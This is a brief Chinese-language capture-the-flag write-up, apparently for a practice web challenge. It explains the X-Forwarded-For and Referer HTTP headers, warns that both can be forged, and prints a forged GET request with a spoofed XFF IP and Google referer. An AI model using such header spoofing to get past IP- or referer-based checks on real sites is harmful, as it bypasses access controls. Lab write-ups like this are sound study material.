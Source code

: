 主要是对xff和refer的伪造

X-Forwarded-For (XFF) 是一个 HTTP 请求标头，用于识别客户端的原始 IP 地址。当请求通过代理服务器或负载均衡器时，原始客户端的 IP 地址会被替换为代理服务器的 IP 地址。通过 XFF 标头，可以获取到客户端的真实 IP 地址，尤其在多层代理的情况下。

Referer（有时写作 "Referrer"）是一个 HTTP 请求标头，用于指示请求的来源页面。当用户通过点击链接或提交表单等方式访问某个页面时，浏览器会在发送请求时附带 Referer 标头，其中包含了来源页面的 URL 信息。这对于网站分析和跟踪用户来源非常有用。

需要注意的是，XFF 和 Referer 标头都可以被修改或伪造，因此在进行安全相关的操作时，不能完全依赖于它们的值。

伪造后的数据包：

GET / HTTP/1.1
Host: 61.147.171.105:50549
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 123.123.123.123
Referer:https://www.google.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close